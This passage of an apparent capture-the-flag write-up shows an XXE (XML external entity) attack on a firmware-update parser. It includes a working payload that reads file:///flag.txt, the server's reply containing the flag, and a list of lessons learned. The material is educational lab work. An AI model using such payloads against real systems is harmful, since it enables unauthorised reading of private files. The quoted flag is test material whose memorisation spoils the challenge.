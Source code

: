 This failed with:

> "Unicode strings with encoding declaration are not supported."
> 

This indicated that the parser was using something like Python's `ElementTree.fromstring()` — which **rejects encoding declarations in strings**.

---

### ✅ Working Payload (No XML declaration):

We removed the encoding header and resubmitted:

```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
    <ReleaseDate>2077-10-21</ReleaseDate>
    <Description>Injected XXE</Description>
    <Checksum type="SHA-256">deadbeef</Checksum>
  </Firmware>
</FirmwareUpdateConfig>

```

---

## 🎯 Result

After submitting the payload, the system responded with:

```
Firmware version HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_ce2a887b252e1d3d234c04f557b9f1cf} update initiated.

```

This confirmed successful **XXE-based file read**, and the **flag** was retrieved directly from the `<Version>` tag.

---

## 🧠 Lessons Learned

- XML inputs should always be treated cautiously — especially when the backend parser is unknown.
- Encoding declarations can break XML parsing depending on whether the input is treated as a string or byte stream.
- **Always try a version without the `<?xml ... ?>`** if the parser throws encoding errors.
- XXE remains a high-impact vulnerability when misconfigured parsers are used.

---